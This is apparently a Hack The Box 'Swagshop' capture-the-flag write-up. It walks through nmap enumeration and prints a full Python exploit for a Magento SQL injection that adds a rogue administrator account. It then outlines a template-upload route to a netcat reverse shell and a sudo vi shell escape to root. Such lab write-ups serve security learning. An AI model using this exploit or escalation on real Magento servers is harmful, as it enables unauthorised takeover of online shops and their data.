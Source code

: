 ```yaml
---
layout: single_c
title:  "Hack The Box - Swagshop Writeup"
date:   2019-00-17 10:43:16 +0530
categories: Hack The Box
tags: 
classes: wide
---
```

### [Hack The Box - Swagshop]()

## Enumeration
Lets start by enumerating

### Nmap
Starting with namp
```bash
nmap -sC -sV 10.10.10.140

# Nmap 7.70 scan initiated Thu Aug 29 15:03:29 2019 as: nmap -sC -sV -oA nmap 10.10.10.140
Nmap scan report for ip-10-10-10-140.ap-south-1.compute.internal (10.10.10.140)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 15:04:15 2019 -- 1 IP address (1 host up) scanned in 45.63 seconds
```
There seems to be a web Magento service running on port 80. Let enumerate further
()
### Directory Buster
`dirb` found an admin login page
(/_posts/htbimg/swag1.png)

searched on  exploit db
Found multiple magento vulnerabilities on exploit db

## Vulnerability
 Tried many but found one that works
 
[Link](https://www.exploit-db.com/exploits/37977)

```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="joe123", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
#print target_url
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

 ```
 
 So i added a user joe123
 lets login
 after browsing around found nothing useful
 searched and found magento froghpper vuln [Linl](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)
 
 1. change developer settings
 2. upload file
 3. create template
 4. start netcat
 5. preview the template
 6. and we have a shell
 
## Priv esc
## Enum again for root
 ```
 
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*


[00;33m[+] Possible sudo pwnage![00m
/usr/bin/vi

```
so lets try pwning using vim

```
$ sudo /usr/bin/vi /var/www/html/test1
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'

:shell  
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
:shell

id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
ls -la
cat root.txt
c2b087d66e14********************

   ___ ___
 /| |/|\| |\
/_| Â´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
                   
```
## Solved